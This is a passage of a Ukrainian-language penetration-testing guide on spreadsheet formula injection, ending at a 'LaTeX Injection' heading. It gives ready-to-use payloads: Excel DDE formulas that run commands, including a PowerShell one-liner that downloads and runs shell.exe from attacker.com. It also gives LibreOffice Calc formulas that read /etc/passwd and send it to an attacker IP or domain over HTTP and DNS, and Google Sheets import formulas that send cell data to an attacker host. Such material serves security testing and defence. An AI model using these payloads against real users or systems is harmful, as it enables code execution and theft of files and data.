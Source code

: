 ### RCE

**Перевірте** [**оригінальний пост**](https://notsosecure.com/data-exfiltration-formula-injection-part1) **для отримання додаткових деталей.**

У певних конфігураціях або старіших версіях Excel функцію під назвою Динамічний обмін даними (DDE) можна експлуатувати для виконання довільних команд. Щоб скористатися цим, необхідно активувати такі налаштування:

- Перейдіть до Файл → Параметри → Центр управління довірою → Налаштування центру управління довірою → Зовнішній вміст і активуйте **Запуск сервера динамічного обміну даними**.

Коли електронна таблиця з шкідливим кодом відкривається (і якщо користувач приймає попередження), код виконується. Наприклад, щоб запустити програму калькулятора, код буде:
```markdown
=cmd|' /C calc'!xxx
```
Додаткові команди також можуть бути виконані, такі як завантаження та виконання файлу за допомогою PowerShell:
```bash
=cmd|' /C powershell Invoke-WebRequest "http://www.attacker.com/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```
### Local File Inclusion (LFI) в LibreOffice Calc

LibreOffice Calc можна використовувати для читання локальних файлів та ексфільтрації даних. Ось кілька методів:

- Читання першого рядка з локального файлу `/etc/passwd`: `='file:///etc/passwd'#$passwd.A1`
- Ексфільтрація прочитаних даних на сервер, контрольований зловмисником: `=WEBSERVICE(CONCATENATE("http://<attacker IP>:8080/",('file:///etc/passwd'#$passwd.A1)))`
- Ексфільтрація більше ніж одного рядка: `=WEBSERVICE(CONCATENATE("http://<attacker IP>:8080/",('file:///etc/passwd'#$passwd.A1)&CHAR(36)&('file:///etc/passwd'#$passwd.A2)))`
- DNS ексфільтрація (відправка прочитаних даних як DNS запити на сервер DNS, контрольований зловмисником): `=WEBSERVICE(CONCATENATE((SUBSTITUTE(MID((ENCODEURL('file:///etc/passwd'#$passwd.A19)),1,41),"%","-")),".<attacker domain>"))`

### Google Sheets для ексфільтрації даних Out-of-Band (OOB)

Google Sheets пропонує функції, які можна експлуатувати для OOB ексфільтрації даних:

- **CONCATENATE**: Об'єднує рядки - `=CONCATENATE(A2:E2)`
- **IMPORTXML**: Імпортує дані з структурованих типів даних - `=IMPORTXML(CONCAT("http://<attacker IP:Port>/123.txt?v=", CONCATENATE(A2:E2)), "//a/a10")`
- **IMPORTFEED**: Імпортує RSS або ATOM стрічки - `=IMPORTFEED(CONCAT("http://<attacker IP:Port>//123.txt?v=", CONCATENATE(A2:E2)))`
- **IMPORTHTML**: Імпортує дані з HTML таблиць або списків - `=IMPORTHTML (CONCAT("http://<attacker IP:Port>/123.txt?v=", CONCATENATE(A2:E2)),"table",1)`
- **IMPORTRANGE**: Імпортує діапазон клітинок з іншої таблиці - `=IMPORTRANGE("https://docs.google.com/spreadsheets/d/[Sheet_Id]", "sheet1!A2:E2")`
- **IMAGE**: Вставляє зображення в клітинку - `=IMAGE("https://<attacker IP:Port>/images/srpr/logo3w.png")`

## LaTeX Injection
